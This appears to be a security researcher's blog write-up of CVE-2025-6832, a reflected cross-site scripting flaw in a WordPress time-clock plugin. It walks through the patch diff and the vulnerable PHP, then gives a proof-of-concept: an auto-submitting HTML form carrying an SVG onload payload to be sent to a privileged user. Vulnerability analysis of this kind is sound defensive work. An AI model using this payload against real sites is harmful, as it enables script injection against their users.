



# CVE-2025-6832 Analysis & POC


<!--more-->

**Reflected Cross-Site Scripting (XSS) vulnerability** in the **All in One Time Clock Lite** plugin for WordPress.
The vulnerability originates from the **nonce** parameter in versions up to and including **2.0**, due to **insufficient input handling** and **lack of output escaping**.
An attacker (including unauthenticated) can inject arbitrary script snippets into the page; these scripts will execute when the victim performs the manipulated action (for example: clicking a link).

* **CVE ID**: [CVE-2025-6832](https://www.cve.org/CVERecord?id=CVE-2025-6832)
* **Vulnerability Type**: Cross Site Scripting
* **Affected Versions**: <= 2.0
* **CVSS severity**: Medium (7.1)
* **Required Privilege**: Unauthenticated
* **Product**: [WordPress All in One Time Clock Lite Plugin](https://wordpress.org/plugins/aio-time-clock-lite/)

## Requirements

* **Local WordPress & Debugging**: [Local WordPress and Debugging](https://w41bu1.github.io/2025-08-21-wordpress-local-and-debugging/).
* **Plugin versions** - **All in One Time Clock Lite**: **v2.0** (vulnerable) and **v2.0.1** (patched).
* **Diff tool** - **Meld** or any diff comparison tool to inspect and compare differences between the two versions.

## Analysis

### Patch diff

In the **vulnerable** version, the `nonce` parameter is taken directly from `$_POST` with **no sanitization**:

```php
$nonce = (isset($_POST["nonce"])) ? $_POST["nonce"] : null;
```

In the **patched** version, the `nonce` parameter is processed with [`sanitize_text_field()`](https://developer.wordpress.org/reference/functions/sanitize_text_field/) before use, preventing injection of malicious code:

```php
$nonce = (isset($_POST["nonce"])) ? sanitize_text_field($_POST["nonce"]) : null;
```

👉 The patch adds an input filtering layer for the `nonce` variable, ensuring data received from the request will have dangerous characters removed before further processing.



### Vulnerable code

The vulnerability is located in the function `aio_time_clock_lite_js()` of the class `AIO_Time_Clock_Lite_Actions` in the file `aio-time-clock-lite-actions.php`{: .filepath}

```php
public function aio_time_clock_lite_js()
{
    // other logic       
    $nonce = (isset($_POST["nonce"])) ? $_POST["nonce"] : null;

    if (wp_verify_nonce($nonce, 'time-clock-nonce')) {
        // other logic            
    } else {
        echo json_encode(
            [
                "response"     => "failed",
                "message"      => esc_attr_x("Not authorized to perform this action", 'aio-time-clock-lite'),
                "nonce"        => $nonce,
                "clock_action" => $clock_action,
            ]
        );
    }

    wp_reset_postdata();
    die();
}
```

{: file="aio-time-clock-lite-actions.php"}

The `wp_verify_nonce()` function compares the `$nonce` value sent from the client with a valid value previously generated by the server using `wp_create_nonce()`.

```php
<input type="hidden" name="time-clock-nonce" id="time-clock-nonce" value="<?php echo wp_create_nonce("time-clock-nonce"); ?>">
```

{: file="aio-settings.php"}

If `$nonce` is invalid => it goes to the `else` branch returning a **JSON** error that contains `$nonce`.

Clicking `2 references` shows that the function `public function aio_time_clock_lite_js()` is registered as a callback for action hooks:


*The function aio_time_clock_lite_js() is attached to two Ajax hooks (authenticated & unauthenticated)*

* `wp_ajax_aio_time_clock_lite_js` (authenticated).
* `wp_ajax_nopriv_aio_time_clock_lite_js` (unauthenticated). => Focus

### Sources & Sinks

* **Source**: The `nonce` parameter is taken directly from `$_POST` (unauthenticated request).
* **Sink**: The `nonce` value is reflected back in `echo json_encode(...)`.

### Flow

1. Send a POST request (unauthenticated) to `/wp-admin/admin-ajax.php` with **params**:

```
action=aio_time_clock_lite_js&nonce=nonce_value
```

2. The callback `aio_time_clock_lite_js()` is invoked
3. The `nonce` value is checked => **invalid**
4. The `nonce` value is reflected into the response body via `echo json_encode(...)`

## Exploit

### Proof of Concept (PoC)

* Create a webpage containing a submit form:

```html
<form action="http://localhost/wp-admin/admin-ajax.php" method="post">
  <input type="hidden" name="action" value="aio_time_clock_lite_js">
  <input type="hidden" name="nonce" value="<svg onload=alert()>">
</form>
<script>document.forms[0].submit()</script>
```

* Send the link to the page containing the form to a user with privileges.
* Observe the injected **JavaScript** executing.



## Conclusion

The **CVE-2025-6832** vulnerability in **All in One Time Clock Lite <= 2.0** allows an **unauthenticated attacker** to exploit a Reflected XSS via the `nonce` parameter. The **2.0.1** patch added `sanitize_text_field()` to filter input, preventing malicious code from being reflected in the JSON response.

**Key takeaways**:

* Always **sanitize** and **escape** data before returning it in responses.
* Endpoints exposed to **nopriv (unauthenticated)** requests should be carefully reviewed.
* Reflected XSS commonly occurs when input values are directly reflected into output (JSON/HTML).
* **Updating the plugin** promptly is the simplest way to reduce risk.

## References

[Cross-site scripting (XSS) cheat sheet — PortSwigger](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

[WordPress All in One Time Clock Lite <= 2.0 — CVE-2025-6832](https://patchstack.com/database/wordpress/plugin/aio-time-clock-lite/vulnerability/wordpress-all-in-one-time-clock-lite-tracking-employee-time-has-never-been-easier-plugin-2-0-reflected-cross-site-scripting-vulnerability)


---

> Author: [Bui Van Y](github.com/w41bu1)  
> URL: http://localhost:1313/posts/2025-10-07-cve-2025-6832/  

